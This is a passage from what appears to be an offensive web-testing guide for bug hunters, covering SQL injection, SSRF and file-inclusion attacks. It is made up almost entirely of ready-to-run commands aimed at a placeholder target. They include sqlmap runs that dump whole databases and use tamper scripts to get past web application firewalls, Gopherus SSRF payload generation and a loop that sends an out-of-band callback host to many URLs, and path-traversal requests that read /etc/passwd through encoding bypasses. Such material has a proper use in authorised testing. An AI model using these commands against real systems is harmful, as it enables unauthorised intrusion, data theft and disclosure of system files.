 **SQLmap Pro Techniques:**
```bash
# Basic detection
sqlmap -u "https://target.com/product?id=1" --batch

# Crawl and test
sqlmap -u "https://target.com" --crawl=2 --batch

# Specific technique testing
sqlmap -u "https://target.com/product?id=1" --technique=U --batch

# Full database extraction
sqlmap -u "https://target.com/product?id=1" --dbs --tables --columns --dump

# Use tamper scripts for WAF bypass
sqlmap -u "https://target.com/product?id=1" --tamper=between,randomcase --batch
```

### 9. SSRF Automation: The Internal Network Bridge

**Why It Matters:** SSRF can provide access to internal services, cloud metadata, and blind spots.

**Advanced SSRF Testing:**
```bash
# Using Gopherus for protocol attacks
gopherus --exploit mysql

# Generate SSRF payloads for different services
gopherus --exploit redis
gopherus --exploit postgresql

# Interactsh for blind detection
interactsh-client -v -o interactions.txt

# Combine with other tools
cat urls.txt | while read url; do
    curl -s "$url" -G --data-urlencode "url=https://your-interactsh-subdomain.interact.sh" 
done
```

### 10. File Inclusion Automation

**Why It Matters:** LFI/RFI can lead to sensitive file disclosure and remote code execution.

**Advanced LFI Testing:**
```bash
# LFI Suite with multiple techniques
python3 lfi_suite.py -u "https://target.com/include?file=index.html" -d 5

# Custom wordlists for specific frameworks
python3 lfi_suite.py -u "https://target.com/include?file=index.html" -w custom_wordlist.txt
```

**Automated Filter Bypass:**
```bash
# Test various encoding bypasses
curl "https://target.com/include?file=....//....//....//etc/passwd"
curl "https://target.com/include?file=....\/....\/....\/etc/passwd"
curl "https://target.com/include?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
```
